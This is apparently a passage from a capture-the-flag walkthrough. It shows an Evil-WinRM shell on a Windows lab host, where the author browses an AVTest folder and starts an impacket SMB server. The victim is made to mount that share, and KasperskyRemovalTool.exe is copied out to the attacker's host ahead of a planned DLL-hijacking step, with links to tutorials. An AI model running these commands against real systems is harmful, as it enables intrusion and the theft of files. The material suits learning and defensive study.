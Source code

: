 
        Directory: C:\


    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-----         9/14/2022   7:03 PM                AVTest
    d-----         8/19/2021   6:24 AM                EFI
    d-----          5/8/2021   8:20 AM                PerfLogs
    d-r---         9/19/2022   3:46 PM                Program Files
    d-----         8/10/2022   4:06 AM                Program Files (x86)
    d-r---         9/18/2022   9:07 PM                Users
    d-----         5/27/2023   4:12 PM                Windows
    d-----         9/14/2022   6:07 PM                xampp


    *Evil-WinRM* PS C:\> cd AVTest
    *Evil-WinRM* PS C:\AVTest> dir


        Directory: C:\AVTest


    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         9/14/2022   4:46 PM        4870584 KasperskyRemovalTool.exe
    -a----         9/14/2022   7:05 PM            235 readme.txt
## DLL-Hijacking

    ➜  trusted impacket-smbserver smb . -smb2support
    *Evil-WinRM* PS C:\AVTest> net use \\10.8.2.152\smb
    Local name
    Remote name       \\10.8.2.152\smb
    Resource type     Disk
    Status            Disconnected
    # Opens           0
    # Connections     1
    The command completed successfully.

    *Evil-WinRM* PS C:\AVTest> copy .\KasperskyRemovalTool.exe \\10.8.2.152\smb\KasperskyRemovalTool.exe
its look like we need windows

    ➜  trusted file KasperskyRemovalTool.exe
    KasperskyRemovalTool.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections

so lets move windows.

https://medium.com/techzap/dll-hijacking-part-1-basics-b6dfb8260cf1 this blog and this video was helped me

https://www.youtube.com/watch?v=xKOwE6KTWic
